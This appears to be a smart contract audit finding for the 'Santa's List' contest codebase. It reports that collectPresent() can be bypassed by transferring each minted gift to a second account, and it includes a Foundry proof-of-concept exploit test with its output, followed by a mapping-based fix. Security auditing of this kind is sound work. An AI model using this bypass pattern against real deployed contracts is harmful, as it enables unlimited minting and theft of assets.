 ## [H1] Malicious User can collect infinite gifts

### Severity

High Risk

### Date Modified

Dec 4th, 2023

### Summary

The idea of the protocol is to let users collect one present per person, just one. To guarantee this, they add the next statement in the `collectPresent()`` function:

```
if (balanceOf(msg.sender) > 0) {
    revert SantasList__AlreadyCollected();
}
```

But overcoming this statement is easy, just send the gift to another account and collect again. In this way, a user can have an infinite number of gifts.

### Vulnerability Details (PoC)

As this is a PoC, I limit the number of gifts to 10, but it works infinitely.

```
function test_collectPresentNeedsControl() public {
        // 1. Santa thought user is a NICE person...
        vm.startPrank(santa);
        santasList.checkList(user, SantasList.Status.NICE);
        santasList.checkTwice(user, SantasList.Status.NICE);
        vm.stopPrank();
        vm.warp(santasList.CHRISTMAS_2023_BLOCK_TIME() + 1);

        // 2. But he/she is not ;-)
        vm.startPrank(user);
        for (uint256 i = 0; i < 10; ++i) {
            santasList.collectPresent();
            santasList.transferFrom(user, userSecondAccount, i);
        }
        vm.stopPrank();

        // 3. user can continue collecting gifts
        assertEq(santasList.balanceOf(user), 0);
        assertEq(santasList.balanceOf(userSecondAccount), 10);
    }
```

```
➜  2023-11-Santas-List git:(main) ✗ forge test --mt test_collectPresentNeedsControl
[⠢] Compiling...
[⠔] Compiling 1 files with 0.8.22
[⠒] Solc 0.8.22 finished in 1.31s
Compiler run successful!

Running 1 test for test/unit/SantasListTest.t.sol:SantasListTest
[PASS] test_collectPresentNeedsControl() (gas: 488578)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.82ms

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

### Impact

This is an Enourmous problem, as any user can collect an infinite number of gifts.

### Tools Used

Manual, foundry

### Recommendations

It is necessary to track effectively if the user has already collected the gift. To do this, we will create a mapping that changes from false to true after collection.

```
mapping(address person => bool isCollected) private s_giftCollected;
```

```
function checkTwice(address person, Status status) external onlySanta {
    if (s_theListCheckedOnce[person] != status) {
        revert SantasList__SecondCheckDoesntMatchFirst();
    }
    s_theListCheckedTwice[person] = status;
////// HERE /////
    s_giftCollected[person] = false;
    emit CheckedTwice(person, status);
    }
```

```
function collectPresent() external {
        if (block.timestamp < CHRISTMAS_2023_BLOCK_TIME) {
            revert SantasList__NotChristmasYet();
        }
////// 1. ADD THE REQUIRE ///////
        require(s_giftCollected[msg.sender] == false, "Already collected");

        if (balanceOf(msg.sender) > 0) {
            revert SantasList__AlreadyCollected();
        }
        if (s_theListCheckedOnce[msg.sender] == Status.NICE && s_theListCheckedTwice[msg.sender] == Status.NICE) {

////// 2. SET AS TRUE ///////
            s_giftCollected[msg.sender] = true;

            _mintAndIncrement();
            return;
        } else if (
            s_theListCheckedOnce[msg.sender] == Status.EXTRA_NICE
                && s_theListCheckedTwice[msg.sender] == Status.EXTRA_NICE
        ) {
            s_giftCollected[msg.sender] = true;
            _mintAndIncrement();
            i_santaToken.mint(msg.sender);
            return;
        }
        revert SantasList__NotNice();
    }
```

In this way, the function will work for one gift per user and will fail if you try to collect more than one gift.

```
➜  2023-11-Santas-List git:(main) ✗ forge test --mt testCollectPresentNice
[⠢] Compiling...
No files changed, compilation skipped

Running 1 test for test/unit/SantasListTest.t.sol:SantasListTest
[PASS] testCollectPresentNice() (gas: 119152)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.43ms

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
➜  2023-11-Santas-List git:(main) ✗
```

```
➜  2023-11-Santas-List git:(main) ✗ forge test --mt test_collectPresentNeedsControl
[⠢] Compiling...
No files changed, compilation skipped

Running 1 test for test/unit/SantasListTest.t.sol:SantasListTest
[FAIL. Reason: revert: Already collected] test_collectPresentNeedsControl() (gas: 149625)
Test result: FAILED. 0 passed; 1 failed; 0 skipped; finished in 1.54ms

Ran 1 test suites: 0 tests passed, 1 failed, 0 skipped (1 total tests)

Failing tests:
Encountered 1 failing test in test/unit/SantasListTest.t.sol:SantasListTest
[FAIL. Reason: revert: Already collected] test_collectPresentNeedsControl() (gas: 149625)

Encountered a total of 1 failing tests, 0 tests succeeded
➜  2023-11-Santas-List git:(main) ✗
```
